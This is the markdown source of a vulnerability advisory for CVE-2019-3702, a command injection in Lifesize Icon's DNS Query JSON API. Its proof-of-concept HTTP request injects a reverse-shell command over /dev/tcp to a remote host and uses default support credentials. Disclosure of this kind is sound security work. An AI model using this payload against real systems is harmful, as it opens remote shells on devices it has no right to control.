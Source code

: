 ```yaml
---
layout: post
title: "Remote Code Execution in Lifesize Icon"
date: 2019-03-26 09:00:00
image:
      url: /assets/pixabay/matrix-1799659_1920.jpg
author: 'Joshua Lehr'
author_image: "https://avatars1.githubusercontent.com/u/22133182?s=400&u=9c37c0c25738af0b47f4b2ab1c3adb0b26f80abf&v=4"
author_link: "https://github.com/noskill1337"
cve: "CVE-2019-3702"
cve_description: "A Remote Code Execution issue in the DNS Query Web UI in Lifesize Icon LS_RM3_3.7.0 (2421) allows remote authenticated attackers to execute arbitrary commands via a crafted DNS Query address field in a JSON API request."
cve_affectedVersion: "LS_RM3_3.7.0 (2421)"
cvss: "8.8"
softwarePatchLink: "[https://cdn.lifesizecloud.com/](https://cdn.lifesizecloud.com/)"
---
```


## Overview

- Vulnerability: Remote Code Execution (RCE)
- Vendor: Lifesize
- Vendor Homepage: [https://www.lifesize.com/en](https://www.lifesize.com/en)
- Product: Lifesize Icon
- Version: {{ page.cve_affectedVersion }}

## Background

LifeSize Icon is a video collaboration platform and consists of various components, e.q. software, video and phone systems.

From the vendor's [website](https://www.lifesize.com/en/video-conferencing-app):
"Lifesize conferencing is streamlined and built to enhance all the different ways your team communicates — from one-on-one audio and video calls to full-scale company meetings among multiple locations. Replace outdated, costly, and audio-only services with more meaningful face-to-face conversations. Features like easy-to-use interface, screen sharing, and calendar integration make Lifesize’s an award-winning HD video conferencing solution. And, unlike consumer-grade apps, Lifesize was built for business. We have over a decade of experience designing HD conference room cameras and touchscreen conference phones. We stand behind our service with a financially backed SLA with 24x7x365 customer support."

## Issue Description

While analyzing the implementation of LifeSize Icon Software, one Remote Code Execution vulnerability has been identified, which can be exploited in order to execute arbitrary commands within the DNS Query address field. This vulnerability can be exploited by authenticated attackers with access to the web interface.

The system provides a JSON API, which exposes various methods like the DNS Query function. This function contains a address field that can be exploited with a remote command execution.

The following **HTTP request** illustrates this approach:

~~~ http
POST /rest/request/8cb1a00d113443c6a9a220104bbdea33/Comm_dnsQuery HTTP/1.1
Host: 1.1.1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:63.0) Gecko/20100101
Firefox/63.0
Accept: */*
Accept-Language: de,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://1.1.1.1/
X-Client: icon-web-client
Authorization: LSBasic c3VwcG9ydDpzdXBwb3J0
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Content-Length: 142
Connection: close

{"call":"Comm_dnsQuery","params":{"type":"A","domainname": "1.1.1.2; 0<&196;exec 196<>/dev/tcp/1.1.1.2/4446; sh <&196 >&196 2>&196"}}
~~~

## Impact

This vulnerability affects the confidentiality / integrity / availability of the system. This allows an attacker to read / manipulate the system. If an attacker is aware of the security issue, he or she may steal important data or compromise the system. With this vulnerability, a complete system compromise is possible.

## Remediation

In order to avoid this vulnerability, it's suggested to disable/update the software with this patch:
**{{ page.cve_affectedVersion }}**

{%if page.softwarePatchLink %}{{ site.softwarePatchText }}{{ page.softwarePatchLink }}{% else %}{{ "" }}{% endif %}

## CVE

- CVE: [{{ page.cve }}](https://cve.mitre.org/cgi-bin/cvename.cgi?name={{ page.cve }})
- CVSS Base Score: **{{ page.cvss }}**
- CVSS: 3.0/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H

## Credit

- {{ site.owner }}
- Patrick Muench

## Disclosure Timeline

- 2018-November-11: Discovered vulnerability
- 2019-Januar-03: Vendor Notification
- 2019-Januar-27: Vendor Response/Feedback
- 2019-May-12: Vendor Fix/Patch
- 2019-May-13: Public Disclosure

## Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information. In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

System administrators need tools like this to discover vulnerable hosts. This tool is offered for legal purposes only and to forward the security community's understanding of this vulnerability. As this PoC actively exploits the vulnerability, do not use against targets without prior permission.

The contents of this advisory are copyright (c) 2019 SVA System Vertrieb Alexander GmbH and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.

## License

{{ site.LicenseDisplay }}